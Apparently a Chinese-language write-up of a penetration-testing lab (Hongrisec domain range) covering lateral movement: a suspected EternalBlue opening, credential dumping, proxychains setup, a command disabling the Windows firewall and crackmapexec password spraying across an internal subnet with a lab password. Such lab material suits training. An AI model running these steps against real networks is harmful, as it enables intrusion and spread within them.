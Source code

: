 ![截图](952676d729b7acc9f172716c0fb3408f.png)

![截图](450737d9cf1c737eab0c70f1bf64687f.png)

这里可能存在ms17-010的利用（永恒之蓝）

抓取密码：

![截图](87724375f670f59c794b593b0d6df093.png)

<center class="half">
    <img src="1.jpg" width="300"/>
    <img src="2.jpg" width="300"/>
</center>

### 内网横向移动

#### 设置代理

先设置个代理，方便后续的渗透：

![截图](bd67de958679f05eed81cd04f815a7ed.png)

然后在kali上设置代理：

```shell
 vim /etc/proxychains4.conf
```

![截图](e2a60c5b3c84245a53cd7173cec4d762.png)

#### 关闭防火墙

这里我们承接上半部分，我们来关闭防火墙：

```shell
 shell netsh advfirewall set allprofiles state off
```

![截图](0e04f2c6bf01aa8632d6c71540768a47.png)

#### 1、利用密钥上线——密码喷洒

由于我们之前已经抓取了密钥，因此这里我们可以利用密钥来进行尝试登陆。我们利用`crackmapexec`进行密码喷洒，看看有哪些主机是我们可以利用密钥上线的：

```shell
# 域内用户
proxychains -q crackmapexec smb 192.168.52.0/24 -u administrator -p Hongrisec@2019
# 本地账户
proxychains -q crackmapexec smb 192.168.52.0/24 -u administrator -p Hongrisec@2019 --local-auth
```

![截图](79b6d124ba5ffe52605841942cdfafff.png)
